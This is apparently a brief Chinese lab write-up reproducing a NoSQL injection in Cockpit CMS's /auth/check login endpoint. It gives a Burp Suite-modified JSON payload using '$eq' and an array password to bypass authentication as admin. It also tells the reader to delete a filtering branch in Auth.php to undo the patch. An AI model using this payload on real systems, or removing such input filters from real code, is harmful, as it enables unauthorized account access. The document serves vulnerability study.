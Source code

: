 ## /auth/check

打开burpsuite,抓取一个POST包

将POST内容改为：

```
{"auth":{"user":{"$eq":"admin"},"password":[0]},"csrf":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc3JmIjoibG9naW4ifQ.v9zlTboG-wFROPUcWj5kSE07IvKkz0IMjiIU0q9ZLR0"}、
```

得到回显：

![3](nosql注入.assets/3.png)

ps:由于漏洞被修复的原因，你需要进入cockpit/modules/Cockpit/Controller/Auth.php删掉第一个分支过滤：

![4](nosql注入.assets/4.png)
